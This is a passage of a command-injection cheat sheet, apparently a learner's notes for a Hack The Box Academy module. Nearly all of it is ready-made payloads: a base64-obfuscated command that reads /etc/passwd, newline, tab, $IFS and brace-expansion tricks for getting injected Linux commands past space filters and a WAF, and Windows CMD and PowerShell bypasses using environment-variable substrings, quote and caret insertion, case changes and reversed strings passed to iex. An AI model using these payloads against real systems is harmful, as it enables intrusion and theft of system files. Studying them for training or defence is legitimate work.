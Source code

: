 | `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

## Bypassing Space Filters  

>Encoded newline `\n` is URL encoded value = `%0a`  

>Bypass Blacklisted Spaces: `127.0.0.1%0a whoami`  

>Using Tabs: `127.0.0.1%0a%09`  

>Using $IFS: `127.0.0.1%0a${IFS}`  

>[Using Brace Expansion](https://academy.hackthebox.com/module/109/section/1036): `127.0.0.1%0a{ls,-la}`  

>Linux command injection to list the contents of the `/home` folder on target and [Bypass the WAF filter](https://academy.hackthebox.com/module/109/section/1037) by using:
```
127.0.0.1%0als${IFS}${PATH:0:1}home
```  


---
# Windows

## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** |